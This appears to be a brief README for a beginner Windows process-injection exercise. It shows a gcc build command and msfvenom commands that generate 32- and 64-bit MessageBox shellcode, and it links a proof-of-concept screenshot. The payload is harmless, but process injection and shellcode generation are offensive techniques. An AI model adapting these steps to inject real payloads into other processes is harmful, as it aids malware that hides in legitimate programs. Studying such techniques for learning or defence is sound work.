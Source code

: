 ##### Process injector level 0
> gcc .\injector.cpp -o injector.exe

les shellcodes sont obtenu avec : 
```
64 bit Shellcode : msfvenom --platform windows -p windows/x64/messagebox TEXT="Injected by Rida" TITLE="Pwned" EXITFUNC=thread -f c
32 bit shellcode : msfvenom -p windows/messagebox -a x86 --platform windows TEXT="Injected by Rida" TITLE="Pwned" EXITFUNC=thread -f c
```

POC : 

![image](assets/POC_process_injector.png)

